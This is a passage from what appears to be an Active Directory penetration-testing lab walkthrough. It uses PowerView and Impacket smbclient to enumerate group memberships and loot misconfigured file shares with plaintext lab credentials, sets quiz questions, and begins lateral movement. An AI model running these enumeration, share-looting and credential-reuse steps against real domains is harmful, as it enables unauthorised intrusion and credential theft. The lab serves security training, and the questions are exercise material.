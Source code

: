 Firstly, with `Taylor_PARRY` - you will find that you are part of the `Developers` group.

```
(LDAPS)-[dc.async.local]-[async\James_PARKER.FROM.LG]
PV > Get-DomainUser -Identity Taylor_PARRY -Properties memberOf    
memberOf     : CN=Developers,CN=Users,DC=async,DC=local
               CN=Legacy Users,CN=Users,DC=async,DC=local
```

**Q12**: What machine is `Taylor_PARRY` a local administrator on?

Next, with `svc_web` - you will find that you have access to new shares on `FS`.

**Q13**: What new shares are available on `FS` when connected with `svc_web`?

## 2.1.3. Re-enumerating Shares

With `svc_web`, we can loot the new shares on `FS`. The following command can be used to enumerate the shares:

```
smbclient.py 'svc_web':'webmaster'@FS.async.local              
Impacket v0.13.0.dev0+20250422.104055.27bebb13 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use svc_home$
# tree
/svc_sql/config.xml
/svc_sql/sqlcmd_output.log
/svc_vdi/hd.key
/svc_vdi/s
/svc_web/web.config
/svc_web/web.debug.config
Finished - 9 files and folders
# 
```

Although we are authenticated as the `svc_web` user, we are also able to access the files of the `svc_sql` and `svc_vdi` users. This is most likely a misconfiguration.

**Q14**: What is the password for the `Tyler_ROSE` user?

## Exercise 3: Lateral Movement

Previously, we compromised the `Tyler_ROSE` account. If you were unable to do so, you can use the following credentials to access the account:

```
Tyler_ROSE : OyShGdq86AIG8RzdaAS5L
```

We can identify that `Tyler_ROSE` is part of the `Fileshare Admins` group, as well as the `Developers` group.

```
powerview 'James_PARKER.FROM.LG':'november11'@dc.async.local
(LDAPS)-[dc.async.local]-[async\James_PARKER.FROM.LG]
PV > Get-DomainUser -Identity Tyler_ROSE -Properties memberOf
memberOf     : CN=Developers,CN=Users,DC=async,DC=local
               CN=Fileshare Admins,CN=Users,DC=async,DC=local
```


[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami